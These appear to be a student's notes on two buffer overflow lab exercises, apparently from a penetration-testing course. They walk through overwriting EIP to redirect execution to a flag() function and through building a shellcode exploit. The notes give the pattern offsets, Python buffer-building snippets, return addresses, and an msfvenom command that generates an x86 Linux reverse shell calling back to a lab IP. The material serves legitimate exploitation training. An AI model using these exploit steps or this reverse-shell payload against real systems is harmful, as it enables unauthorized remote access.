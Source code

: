 
###### 12.3.3
Now it is time to practice controlling EIP, _Linux_ style. You just need to overwrite EIP to point to the memory address of the _flag()_ function inside the binary you find on VM #1 at _hXXps://\[VM#1_IP\]/execution-flow-linux_ to get the flag.  
Just like with the windows challenges, this binary reads from 'exploit.txt' by default locally and from STDIN (the socket) on the server.  
You also do not get a copy of the source code or a template to assist (but you didn't need them anyways).  
Once ready, launch your raw exploit against port 5000 on VM #1 to solve this challenge and get the flag.

```bash
msf-pattern_create -l 4000
```

~~**Add addt hex values** at beginning and at the end in order for the app to correctly crash:~~ Not needed for exercises, just the **crossfire** app

```bash
payload = "<pattern>"  
  
  
with open ("exploit.txt", "wb") as f:  
    f.write((payload))
```


**NOTE:** In order to get everything working & overwriting the **EIP** in [**edb**](edb.md):  
1. install **xterm**.  
2. cd to the directory w/ the binary & exploit.txt before running **edb**  

```bash
└─$ msf-pattern_offset -l 4000 -q 45377a45  
[*] Exact match at offset 3892
```

 
Test pattern match by passing ‘A’ * 3892 + ‘B’ * 4  


**Find flag() func addr:**  

In **edb** - Plugins > Function Finder  
Select binary & Search.  Filter for _flag_  
  
  
  

Redirect **EIP** to flag() func: 
**NOTE:** You may need to hit Run twice in **edb** to get it to trigger  

```bash
eip = "\x2b\x86\x04\x08"  
  
padding = "A" * 3892  
  
buffer = padding + eip  
  
with open ("exploit.txt", "wb") as f:  
    f.write(buffer)  
```




###### 12.3.4
We have released _PWK Shellcode Tester v3.0_ that is running on VM #1.  
This time, the program only accepts raw hex bytes. This updated service is available at _hXXps://\[VM#1_IP\]/shellcode-linux_.
Just like with the Windows BOFs module challenges, this binary reads from 'exploit.txt' by default locally and from STDIN (the socket) on the server.  
You can generate an x86 linux reverse shell shellcode in a raw format and forward it through netcat to VM#1 and get the flag.  
  
  
pattern offset = 98  
  
bad chars ---- **NOTE:** Had to put a breakpoint on the last **RET** to view **ESP** in dump properly as checking for bad chars wouldn't overflow the buffer (despite it being much larger than 98 chars)  
  
shellcode:  
```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.119.231 LPORT=443 -b "x00\x0a\x0d\x1a\x43\x75\x9e\xbc" -f py -v shellcode
```


Plugins > Opcode Searcher > Opcode Search  
  
Search through the listed modules for **ESP -> EIP**  
	0x5e9a515e

```bash
eip = "\x5e\x51\x9a\x5e"  
  
nop = "\x90" * 16  
  
buffer = 'A' * 98 + eip + nop + shellcode + "\n"
```